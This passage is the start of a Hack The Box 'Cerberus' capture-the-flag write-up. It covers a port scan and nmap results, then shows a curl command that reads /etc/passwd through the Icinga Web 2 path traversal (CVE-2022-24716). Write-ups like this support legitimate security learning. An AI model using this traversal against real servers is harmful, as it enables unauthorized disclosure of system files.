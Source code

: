 ```yaml
---
title: Cerberus 
date: 2023-03-18 23:02
categories: [HTB,CTF]
tags: [htb]
---
```


# Enumeration

## Rustscan

```bash
sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.188.191 -- -sV -sC -oA ./{{ip}}
```

### Ports

```bash
Open 10.129.188.191:8080
```

### Services

```bash
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

# Foothold

## Exploitation

### Arbitrary File Disclosure (CVE-2022-24716)

We are presented with an installation of Icinga Web 2. After some research I discovered that this application is vulnerable to a path traversal vulnerability.  

[Icinga Web Path Traversal](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

```bash
# To get /etc/passwd
curl http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd
```
